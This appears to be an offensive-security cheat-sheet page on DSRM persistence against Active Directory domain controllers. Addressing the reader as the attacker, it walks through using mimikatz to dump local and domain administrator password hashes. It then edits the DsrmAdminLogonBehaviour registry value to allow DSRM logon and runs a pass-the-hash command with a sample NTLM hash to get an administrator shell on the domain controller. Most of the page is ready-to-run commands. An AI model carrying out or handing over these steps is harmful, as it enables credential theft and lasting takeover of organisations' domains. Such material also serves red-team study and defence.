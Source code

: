 # DSRM

All domain controllers have a hard-coded local Administrator account stored in their SAM file. This account and local database are not used or generally available when the domain controllers are running normally.

While Active Directory Domain Controller is configured, the wizard prompts ask to enter a DSRM password for the local administrator. This password provides the administrator with a back door to the database in case something goes wrong later.

**DSRM persistence is possible where the systems do not change the DSRM password after AD installation or do not follow the standard of changing passwords regularly for DSRM.**

### <mark style="color:orange;">Extract the Hash</mark>

All you need to do is just run the mimikatz with Administration privilege and execute these commands given below:

```
privilege::debug
token::elevate
```

Extract local Administrator Password Hash

```
lsadump::sam
```

Extract AD Administrator Password Hash

```
lsadump::lsa /patch
```

### <mark style="color:orange;">Change the DSRM Registry Key Value</mark>

Once you have the local administrator password hash you need to make some changes inside the Windows registry that will allow you (attacker) to login into Domain Controller using DSRM hashes without rebooting the server.

Very first confirm the registry key value for DsrmAdminLogonBehaviour with the help of the following command:

```
Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\"
```

{% hint style="info" %}
If DsrmAdminLogonBehaviou registry key is not present inside the HKLM:\System\CurrentControlSet\Control\Lsa\ then create a new key and set the value with the help of the following command:
{% endhint %}

```
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose
```

#### the `DsrmAdminLogonBehaviour Value=0` will not allow login into DC using DSRM hash.

Set DsrmAdminLogonBehaviour value=2 with the help of the following command:

```
Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose
```

### <mark style="color:orange;">Pass the DSRM Hash</mark>

#### <mark style="color:green;">At Client System</mark>

To access the domain controller CMD through the client system, run mimikatz with administrator privilege and execute the following command:

```
privilege::debug
sekurlsa::pth /user:Administrator /domain:ignite.local /ntlm:32196B56FFE6F45E294117B91A83BF38
```

Use the hash value of the local Administrator in the above command

This will provide you (attacker) the Administrator privilege cmd shell of the Domain controller
